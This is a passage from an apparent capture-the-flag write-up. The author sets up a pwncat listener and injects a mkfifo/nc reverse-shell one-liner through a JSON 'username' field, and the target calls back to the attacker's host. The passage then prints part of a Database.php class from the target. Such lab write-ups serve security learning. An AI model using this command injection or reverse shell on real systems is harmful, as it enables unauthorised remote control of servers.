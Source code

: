 Let's see if we can trigger a reverse shell, I setup my listener with `pwncat`.

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host 10.10.***.*** 4444 -m linux
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

I generate a reverse shell payload using RevShells and use this:

```json
{
    "username": "test2;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.***.*** 4444 >/tmp/f;"
}
```

And we get a callback!

```
[15:47:37] 10.10.11.221:32780: registered new host w/ db
[15:47:38] listener: 10.10.***.***:4444: linux session from 10.10.11.221:32780
           established
```

Once inside, after running `ls` I see a `Database.php`:

```php
class Database
{
    private $host;
    private $user;
    private $pass;
    private $dbName;

    private static $database = null;

    private $mysql;

    public function __construct($host, $user, $pass, $dbName)
    {
        $this->host     = $host;
        $this->user     = $user;
        $this->pass     = $pass;
        $this->dbName   = $dbName;

        self::$database = $this;
    }

    public static function getDatabase(): Database
    {
        return self::$database;
    }

    public function connect()
    {
        $this->mysql = new mysqli($this->host, $this->user, $this->pass, $this->dbName);
    }

    public function query($query, $params = [], $return = true)
    {
        $types = "";
        $finalParams = [];

        foreach ($params as $key => $value)
        {
```